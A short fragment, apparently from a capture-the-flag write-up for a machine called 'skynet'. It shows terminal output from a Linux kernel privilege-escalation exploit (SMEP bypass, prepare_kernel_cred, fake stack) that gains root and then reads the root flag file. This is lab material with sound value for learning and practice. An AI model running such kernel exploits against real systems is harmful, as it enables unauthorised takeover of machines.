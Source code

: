 [.] prepare_kernel_cred: ffffffff824a6110
[.] SMEP bypass enabled, mmapping fake stack
[~] done, fake stack mmapped
[.] executing payload ffffffff82417c55
[~] done, should be root now
[.] checking if we got root
[+] got r00t ^_^
root@skynet:/tmp# ls
ls
43418.c
exploit
systemd-private-5f8beb6b2d9448a7a43dca19e2677502-dovecot.service-ihszxh
systemd-private-5f8beb6b2d9448a7a43dca19e2677502-systemd-timesyncd.service-Bm3wiD
root@skynet:/tmp# cat /root/root.txt
cat /root/root.txt
3f0372db24753accc7179a282cd6a949


completed 2nd may 2021 1814hr















